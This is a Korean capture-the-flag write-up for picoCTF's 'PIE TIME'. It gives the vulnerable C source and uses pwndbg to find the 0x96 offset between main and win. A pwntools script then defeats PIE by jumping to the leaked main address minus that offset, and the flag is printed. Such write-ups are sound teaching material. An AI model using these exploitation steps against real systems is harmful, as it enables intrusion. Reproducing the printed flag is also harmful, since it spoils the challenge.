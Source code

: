 # [PIE TIME](https://play.picoctf.org/practice/challenge/490?category=6&page=1)
<br />

**Description:**
> Can you try to get the flag? Beware we have PIE!
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/CTF/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />
<br />

바이너리를 실행하면 `main`의 주소를 출력하고, 점프할 주소를 입력 받습니다. `win`으로 점프하면 문제가 풀리지만, 바이너리에는 `PIE`가 적용되어 있어서 `win`의 주소를 특정하기 어렵습니다. 그러나 함수의 오프셋은 영향을 받지 않으므로, 디버깅을 통해 `win`의 오프셋을 구하면 문제를 쉽게 해결할 수 있을 것입니다.
```bash
pwndbg> p/a 0x55555555533d
$1 = 0x55555555533d <main>
pwndbg> p win
$2 = (<text variable, no debug info> *) 0x5555555552a7 <win>
pwndbg> p/x 0x55555555533d - 0x5555555552a7
$3 = 0x96
```
`main`과 `win`의 오프셋은 `0x96` 입니다.

```bash
$ ./vuln
Address of main: 0x564f85f0633d
Enter the address to jump to, ex => 0x12345: 0x564f85f062a7
Your input: 564f85f062a7
You won!
Cannot open file.
```
바이너리를 실행하여 제공되는 `main`의 주소에서 `0x96`만큼 뺀 주소로 점프하면 문제가 풀이됩니다.

```python
from pwn import *

context.log_level = "error"

#p = process("./vuln")
p = remote("rescued-float.picoctf.net", 59222)

p.recvuntil(b"0x")

MAIN = int(p.recv(12), 16)
WIN = MAIN - 0x96
log.info(f"WIN: {WIN:#x}")

p.sendlineafter(b"0x12345: ", hex(WIN).encode())
p.interactive()
```
```bash
$ python3 test.py
Your input: 563387db42a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_fec8b8c5}

$
```
